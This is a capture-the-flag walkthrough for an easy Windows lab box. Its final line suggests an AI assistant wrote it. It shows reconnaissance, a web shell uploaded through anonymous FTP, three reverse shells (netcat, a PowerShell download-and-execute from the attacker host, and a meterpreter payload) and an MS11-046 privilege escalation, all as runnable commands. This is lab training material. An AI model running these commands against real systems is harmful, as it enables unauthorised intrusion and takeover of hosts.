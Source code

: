 # 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)


## 🧭 Reconnaissance

**Full port scan:**
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
```

**Targeted version/service scan:**
```bash
nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
```

---

## 🌐 [Web](HTTP) & [FTP](FTP) Enumeration

**Check FTP access (Anonymous allowed):**
```bash
ftp 10.10.10.5
# Login: anonymous / [blank]
```

**Identify if FTP root = Web root:**
```bash
# Upload test file or observe files:
put test.html
# Check in browser: http://10.10.10.5/test.html
```

**Check headers for ASP.NET support (e.g. using Burp):**
```
X-Powered-By: ASP.NET
```

---

## 📥 Initial Foothold (Webshell Upload)

**Copy a basic ASPX web shell:**
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

**Upload via FTP:**
```bash
ftp> put cmd.aspx
```

**Access webshell:**
```
http://10.10.10.5/cmd.aspx
```

**Execute command (example):**
```
whoami
```

---

## 🐚 Reverse [Shell](SSH) (Multiple Methods)

### Option 1: Netcat

**Start SMB share:**
```bash
mkdir smb
cp /usr/share/windows-binaries/nc.exe smb/
sudo smbserver.py share smb
```

**Start listener:**
```bash
nc -lnvp 443
```

**From webshell:**
```cmd
\\10.10.14.14\share\nc.exe -e cmd.exe 10.10.14.14 443
```

---

### Option 2: Nishang (PowerShell TCP)

**Edit and host reverse shell:**
```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 smb/
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443" >> smb/Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```

**From webshell:**
```powershell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/Invoke-PowerShellTcp.ps1')"
```

---

### Option 3: Meterpreter

**Generate payload:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -f aspx -o met_rev_443.aspx
```

**Upload via FTP:**
```bash
ftp> put met_rev_443.aspx
```

**Start handler:**
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.14
set LPORT 443
run
```

**Trigger callback:**
```
curl http://10.10.10.5/met_rev_443.aspx
```

---

## 🔧 Privilege Escalation

**Check .NET versions:**
```cmd
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

**Use Watson (uploaded via SMB):**
```cmd
\\10.10.14.14\share\Watson.exe
```

**Pick MS11-046 (example):**
```bash
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe
```

**Upload and run:**
```cmd
\\10.10.14.14\share\MS11-046.exe
```

**Confirm SYSTEM shell:**
```cmd
whoami
```

---

## 🎯 Flags

```cmd
type C:\Users\babis\Desktop\user.txt.txt
type C:\Users\Administrator\Desktop\root.txt.txt
```

---

Let me know if you want this exported as a Markdown file or want to move on to another box! 💥